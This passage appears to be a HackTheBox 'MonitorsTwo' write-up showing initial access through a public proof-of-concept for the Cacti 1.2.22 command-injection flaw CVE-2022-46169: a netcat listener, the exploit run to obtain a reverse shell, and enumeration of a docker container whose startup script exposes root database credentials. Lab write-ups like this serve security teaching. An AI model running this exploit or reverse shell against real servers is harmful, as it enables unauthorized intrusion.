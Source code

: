 ## Initial Foothold
To establish a foothold on this machine i used this PoC exploit 
[FredBrave/CVE-2022-46169-CACTI-1.2.22](https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22) 
in the form of a reverse shell.

Listening for connections:
```shell
┌──(kali㉿rar)-[~/HTB/MonitorsTwo]
└─$ nc -lvnp 1337  
listening on [any] 1337 ...

```

Running the exploit:
```shell
┌──(kali㉿rar)-[~/HTB/MonitorsTwo]
└─$ python CVE-2022-46169/exploit.py -u http://10.10.11.211/ --LHOST=tun0_IP --LPORT=1337
```

And we are in ! 
![PoC success](https://github.com/0xRar/0xrar.github.io/assets/33517160/0c75957f-87f8-4d62-aff4-c1a894f2053b)


Now that we have access to the machine we can start enumerating and looking for anything that 
can allow us to get access to a local user, while looking for any scrips/files i found a shell script
(`entrypoint.sh`) on the root directory `/`, there is also a `.dockerenv` file which means we are currently
in a docker container!

```shell
www-data@50bca5e748b0:/$ cat entrypoint.sh
cat entrypoint.sh
#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
    mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
    mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
    mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
fi

chown www-data:www-data -R /var/www/html
# first arg is `-f` or `--some-option`
if [ "${1#-}" != "$1" ]; then
	set -- apache2-foreground "$@"
fi

exec "$@"
```
